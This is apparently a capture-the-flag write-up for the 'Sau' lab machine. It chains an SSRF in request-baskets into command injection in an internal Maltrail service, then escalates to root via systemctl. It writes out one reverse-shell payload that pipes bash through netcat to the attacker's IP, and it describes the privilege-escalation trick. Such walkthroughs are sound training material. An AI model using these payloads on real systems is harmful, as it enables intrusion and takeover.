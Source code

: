 # Sau

#### _January 6th, 2024_

#### Difficulty: Easy



---
<br>

I started working on this machine by running a quick nmap scan. The results show 3 open and 1 filtered port. 

<img src="images/quicknmap.png">

After that I ran a full port scan to try to find any hidden non-default ports and the service versions, but I did not gain any new information. 

<img src="images/fullnmap.png">

I was not able to find a web application running on the default 80 port, but traversing to the port 55555 on a browser gave me access to a web application. On the bottom of the web application we can see that it is powered by request-baskets 1.2.1. 

<img src="images/basket.png">


The application itself seems to be a tool to collect and inspect HTTP requests. You can set the responses the server sends back to the requester and if you are administrator, you can inspect all of the baskets created on the application. After understanding the principles of the application I started searching for any public vulnerabilities this particular version of requets-baskets has.

After a brief search I stumbled upon CVE-2023-27163, which states that request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. 

<img src="images/cve.png">

Using a PoC I found I was able to forge a test SSRF payload on the /api/baskets endpoint, which is used to create a basket, and establish a connection to my local netcat listener.

<img src="images/burp.png">

<img src="images/nc.png">

Now it was time to craft a request that gives me access to previously unaccessible resources. After reading around request-baskets documentation, I had somewhat of a picture of how this could be achieved. Using the vulnerability found before and our nmap enumeration, setting the forward-url parameter to http://127.0.0.1:80/ and the proxy_response to true should allow us to: send a request to the before unaccessible HTTP port throught our basket "proxy" and pass the response back to us. 

<img src="images/apivuln.png">

Traversing to my newly created basket, I was greeted with a response from the forward-url address. The port seems to be running Maltrail v0.53

<img src="images/maltrail.png">

After gathering information about Maltrail v0.53 I was able to find OS Command Injection vulnerability explained in detail here The way the exploit works is that we should be able to inject OS Command on the username parameter when trying to log in to the application. Thus, we need to set the forwarded route of our request to http://127.0.0.1:80/login.

Using the PoC example I was able to create a payload that executes whoami command on the target machine and pipe it to my attacking machine using netcat. 

<img src="images/curl.png">

<img src="images/puma.png">


With this method I was able to grab the user flag. Now it was time to start working on gaining a better shell access, because using this method it could be a bit tedious having to send every command through using curl.

Using hacktricks as a source I was able to create a payload for reverse shell. The payload is as follows:

username=;`nc 10.10.14.93 1337| /bin/bash | nc 10.10.14.93 54321`

Where bash commands are piped from port 1337 to the target bash, and the output of the commands are piped to my listener at port 54321. Using this method I was able to have fairly nice (albeit not optimal having to use two ports) shell and decided to start to enumerate the target further. 

<img src="images/shell.png">

<img src="images/foothold.png">

After enumerating the target for a while there was one thing that got my attention as potential vulnerability. Running the command sudo -l prints the following output: 

<img src="images/sudol.png">

Meaning that I am able to run ../systemctl status trail.service as root. Looking at GTFOBins we see that systemctl can be used for privilege escalation in numerous ways. In this case, because we can only do a certain systemctl call, I went for the last option (!sh). This method requires me to run the systemctl status -command first. After that simply running !sh invokes bourne shell as root:

Note: If you get 'event not found' error, simply run set +H command.

<img src="images/who.png">

<img src="images/root.png">